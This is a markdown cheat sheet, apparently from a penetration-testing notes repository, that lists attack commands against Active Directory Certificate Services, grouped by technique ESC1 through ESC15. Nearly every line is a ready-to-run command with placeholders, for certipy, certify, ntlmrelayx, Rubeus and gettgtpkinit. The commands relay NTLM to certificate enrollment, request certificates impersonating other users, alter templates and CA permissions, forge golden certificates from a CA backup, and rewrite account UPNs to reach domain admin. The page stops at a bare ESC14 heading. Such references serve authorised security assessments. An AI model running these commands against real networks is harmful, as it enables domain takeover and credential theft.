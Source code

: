 ```yaml
---
title: "ADCS"
description: "ADCS techniques and commands for Active Directory security assessment."
---
```

# ADCS
## Enumeration *Web enrollement || Vulnerable template || Vulnerable CA || Misconfigured ACL || Vulnerable PKI Object AC*{: .highlight}
- `certutil -v -dsTemplate`
- `certify.exe find [ /vulnerable]`
- `certipy find -u <user>@<domain> -p <password> -dc-ip <dc_ip>`
- `ldeep ldap -u <user> -p <password> -d <domain> -s <dc_ip> templates`
- Get PKI objects information
  - `certify.exe pkiobjects`
- Display CA information
  - `certutil -TCAInfo`
  - `certify.exe cas`

## Web Enrollment Is Up *Domain admin*{: .highlight}
- ESC8 *Pass the ticket*{: .highlight} *DCSYNC || LDAP shell*{: .highlight}
  - `ntlmrelayx.py -t http://<dc_ip>/certsrv/certfnsh.asp -debug -smb2support --adcs --template DomainController`
    - `Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt`
    - `gettgtpkinit.py -pfx-base64 $(cat cert.b64) <domain>/<dc_name>$ <ccache_file>`
  - `certipy relay -target http://<ip_ca>`
    - `certipy auth -pfx <certificate> -dc-ip <dc_ip>`

## Misconfigured Certificate Template
- ESC1 *Pass the certificate*{: .highlight}
  - `certipy req -u <user>@<domain> -p <password> -target <ca_server> -template '<vulnerable template name>'  -ca <ca_name> -upn <target_user>@<domain>`
  - `certify.exe request /ca:<server>\<ca-name>   /template:"<vulnerable template name>" [/altname:"Admin"]`
- ESC2 *ESC3*{: .highlight}
- ESC3
  - `certify.exe request /ca:<server>\<ca-name> /template:"<vulnerable template name>"`
    - `certify.exe request request /ca:<server>\<ca-name> /template:<template>  /onbehalfof:<domain>\<user> /enrollcert:<path.pfx> [/enrollcertpw:<cert-password>]`
  - `certipy req -u <user>@<domain> -p <password> -target <ca_server> -template '<vulnerable template name>'  -ca <ca_name>`
    - `certipy req -u <user>@<domain> -p <password> -target <ca_server> -template  '<vulnerable template name>'  -ca <ca_name> -on-behalf-of '<domain>\<user>' -pfx <cert>`
- ESC13 *Pass The Certificate (PKINIT)*{: .highlight}
  - `certipy req -u <user>@<domain> -p <password> -target <ca_server>  -template '<vulnerable template name>' -ca <ca_name>`
  - `certify.exe request /ca:<server>\<ca-name> /template:"<vulnerable template name>"`
- ESC15
  - `certipy req -u <user>@<domain> -p <password> -target <ca_server> -template '<version 1 template with enrolee flag>' -ca <ca_name> -upn <target_user>@<domain> --application-policies 'Client Authentication' #[PR 228]` *Pass the certificate (only Schannel)*{: .highlight}
  - `certipy req -u <user>@<domain> -p <password> -target <ca_server> -template '<version 1 template with enrolee flag>' -ca <ca_name> --application-policies 'Certificate Request Agent' # [PR 228]` *Pass the certificate*{: .highlight}
    - `certipy req -u <user>@<domain> -p <password> -target <ca_server> -template '<vulnerable template name>' -ca <ca_name> -on-behalf-of '<domain>\<user>' -pfx <cert>`


## Misconfigured ACL
- ESC4
  - write privilege over a certificate template
    - `certipy template -u <user>@<domain> -p '<password>' -template <vuln_template> -save-old -debug` *ESC1*{: .highlight}
    - restore template
      - `certipy template -u <user>@<domain> -p '<password>' -template <vuln_template> -configuration <template>.json`

- ESC7
  - Manage CA
    - `certipy ca -ca <ca_name> -add-officer  '<user>' -username <user>@<domain> -password <password> -dc-ip <dc_ip> -target-ip <target_ip>` *ESC7 Manage certificate*{: .highlight}
  - Manage certificate
    - `certipy ca  -ca <ca_name> -enable-template '<ecs1_vuln_template>' -username <user>@<domain> -password <password>`
      - `certipy  req -username <user>@<domain> -password <password> -ca <ca_name> -template '<vulnerable template name>' -upn '<target_user>'`
        - error, but save private key and get issue request
    - Issue request
      - `certipy ca -u <user>@<domain> -p '<password>' -ca <ca_name> -issue-request <request_id>`
        - `certipy req -u <user>@<domain> -p '<password>'  -ca <ca_name> -retreive <request_id>` *Pass the certificate*{: .highlight}

## Vulnerable PKI Object access control

- ESC5
  - Vulnerable acl on PKI *ACL*{: .highlight}
  - Golden certificate 
    - `certipy ca -backup -u <user>@<domain> -hashes <hash_nt> -ca <ca_name> -debug -target <ca_ip>`
      - `certipy forge -ca-pfx '<adcs>.pfx' -upn administrator@<domain>` *Pass the certificate*{: .highlight}

## Misconfigured Certificate Authority

- ESC6 @CVE@ *ESC1*{: .highlight}
  - Abuse ATTRIBUTESUBJECTALTNAME2 flag set on CA you can choose any certificate template that permits client authentication

- ESC11 *Pass the ticket*{: .highlight} *DCSYNC*{: .highlight} *Domain Admin*{: .highlight}
  - `ntlmrelayx.py -t rpc://<ca_ip> -smb2support -rpc-mode ICPR -icpr-ca-name <ca_name>` 
    - `Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt`
    - `gettgtpkinit.py -pfx-base64 $(cat cert.b64) <domain>/<dc_name>$ <ccache_file>`
  - `certipy relay -target rpc://<ip_ca> -ca '<ca_name>'`
    - `certipy auth -pfx <certificate> -dc-ip <dc_ip>`

## Abuse Certificate Mapping

- ESC9/ESC10 (implicit)
  - `certipy shadow auto -username <accountA>@<domain> -p <passA> -account <accountB>`
    - ESC9/ESC10 (Case 1)
      - `certipy account update -username <accountA>@<domain> -password <passA> -user <accountB> -upn Administrator` *reset accountB UPN*{: .highlight}
        - ESC9
          - `certipy req  -username <accountB>@<domain> -hashes <hashB> -ca <ca_name> -template <vulnerable template>` *ESC9*{: .highlight}
        - ESC10 (case 1)
          - `certipy req  -username <accountB>@<domain> -hashes <hashB> -ca <ca_name> -template <any template with client auth>` *ESC10 (case 1)*{: .highlight}
    - ESC10 (Case 2)
      - `certipy account update -username <accountA>@<domain> -password <passA> -user <accountB> -upn '<dc_name$>@<domain>'` *ESC10 Case1*{: .highlight}
  - reset accountB UPN
    - `certipy account update -username <accountA>@<domain> -password <passA> -user <accountB> -upn <accountB>@<domain>` *Pass The Certificate*{: .highlight}
      - [Kerberos Mapping] ESC9/ESC10(Case 1)
      - [Schannel Mapping] ESC9/ESC10 (Case 2)

- ESC14 (explicit)